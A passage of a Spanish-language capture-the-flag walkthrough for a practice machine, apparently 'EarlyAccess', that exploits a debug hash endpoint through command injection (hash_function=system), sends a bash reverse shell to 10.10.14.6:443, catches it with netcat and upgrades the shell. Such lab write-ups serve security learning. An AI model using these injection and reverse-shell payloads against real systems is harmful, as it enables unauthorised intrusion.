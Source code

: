 Tal vez si encontramos una forma de manipular esta data con <i>Burpsuite</i> podremos ganar
acceso al sistema.

```bash
action=hash&redirect=true&password=id&hash_function=system&debug=asd
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605969/early_hash_pwn_qn3peo.webp'
width={481}
height={93}
/>

Queda darnos una reverse shell.

```bash
action=hash&password=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&hash_function=system&debug=1
```

ponemos en <i>url encode</i> para evitarnos errores y escuchamos en nuestro local con netcat.

```bash
leo@nardo$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.110] 49100
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ hostname -I
hostname -I
172.18.0.102
```

Vemos que estamos en un contenedor, ya que nuestro target es <i>10.10.11.110</i>,
ahora tenemos acceso al sistema antes de continuar hacemos un tratamiento de la consola con <i>script</i>.

```bash
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ script /dev/null -c bash
<rlyaccess.htb/dev/actions$ script /dev/null -c bash
Script started, file is /dev/null
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
zsh: suspended nc -nlvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
reset xterm
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$
```

### Usuario game-adm | Shell

Nos dirigimos a <i>/home</i>, visualizamos un usuario <i>www-adm</i> y un archivo <i>.wgetrc</i>
que puede ser interesante.
